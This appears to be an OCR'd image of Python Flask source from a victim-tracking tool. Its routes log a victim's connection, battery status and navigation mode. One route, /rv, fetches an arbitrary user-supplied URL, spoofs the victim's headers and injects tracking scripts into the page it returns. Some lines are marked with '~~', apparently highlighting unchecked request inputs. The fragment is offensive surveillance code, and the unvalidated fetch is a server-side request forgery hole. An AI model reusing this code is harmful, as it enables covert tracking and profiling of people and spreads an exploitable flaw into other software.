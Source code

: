 ```python
        db.sentences_victim('connection_victim', [vId, con, host], 2)
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/bs", methods=["POST"])
    def batteryStatusRegister():
~~        vId = request.form['id']
~~        b_data = request.form['d']
~~        b_type = request.form['t']
        
        db.sentences_victim('update_battery', [vId, b_data, b_type], 2)
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/nm", methods=["POST"])
    def navigationMode():
~~        vId = request.form['id']
~~        b_data = request.form['d']
~~        b_data_2 = request.form['dn']
        
        db.sentences_victim('update_navigationmode', [vId, b_data, b_data_2], 2)
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/rv")
    def redirectVictim():
~~        url = request.args.get('url')
        if url[0:4] != 'http':
            url = 'http://' + url
        opener = urllib2.build_opener()
        headers = victim_headers(request.user_agent)
        opener.addheaders = headers
        html = assignScripts(victim_inject_code(opener.open(url).read(), 'vscript', url, trape.gmaps, trape.ipinfo))
        return html

    @app.route("/regv", methods=["POST"])
    def registerRequest():
